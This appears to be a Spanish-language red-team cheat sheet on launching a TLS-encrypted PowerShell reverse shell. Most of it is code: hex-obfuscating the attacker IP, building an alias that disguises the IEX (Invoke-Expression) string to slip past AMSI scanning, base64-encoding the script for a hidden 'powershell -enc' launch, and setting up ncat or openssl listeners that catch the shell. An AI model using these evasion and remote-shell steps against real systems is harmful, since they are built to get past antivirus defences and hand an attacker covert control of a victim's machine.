 ## **TCP Reverse Shell mediante TLS en Powershell**

Todos los agradecimientos a estos dos enlaces, es puro virtuosismo lo que hay ahí, esto no es más que un copia y pega:

https://0xdarkvortex.dev/index.php/2019/07/17/red-team-ttps-part-1-amsi-evasion/

https://github.com/3v4Si0N/HTTP-revshell

**1.- Ofuscar la IP**

Básicamente se trata de crear los valores en hexadecimal:

```
printf "%x,%x,%x,%x\n" 192 168 11 34
c0,a8,b,22
```

```powershell
$px = "c0","a8","b","22"
$p = ($px | ForEach { [convert]::ToInt32($_,16) }) -join '.'
```

**2.- Ofuscar la cadena IEX**

Establecemos un alias con los valores de una cadena aleatoria, extrayendo la cadena con los índices del array:

```powershell
$x = "new-exercise"
Set-alias $x  ($x[$true-4] + ($x[[byte]("0x" + "FF") - 263]) + $x[[byte]("0x" + "ba") - 193]) .'
```
Aquí otro método que he visto, pero la idea es utilizar el tuyo propio:
```powershell
[array]$shurmano = "I","n","t","E","r","n","e","X" ;
set-alias new-exercise $($shurmano | foreach { if ($_ -cmatch '[A-Z]' -eq $true) {$x += $_}}; $x)
```

**3.- Pasar el script de powershell a base64**
```
cat tlsrevshell.ps1 | iconv -f UTF8 -t UTF16LE | base64 -w 0
```

**4.- Ejecutarlo desde consola PS **
```
powershell -noP -sta -w 1 -enc ENC64SCRIPT
```

Como muestra de estás técnicas os dejo el [TCP reverse shell con TLS](https://github.com/g4ngli0s/chuletas/blob/master/bypasspowershell/tlsrevshell.ps1), como listener en vuestra máquina kali podeís usar ncat u openssl:

```
ncat --allow <IP> -vnl <PORT> --ssl
```
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>
```


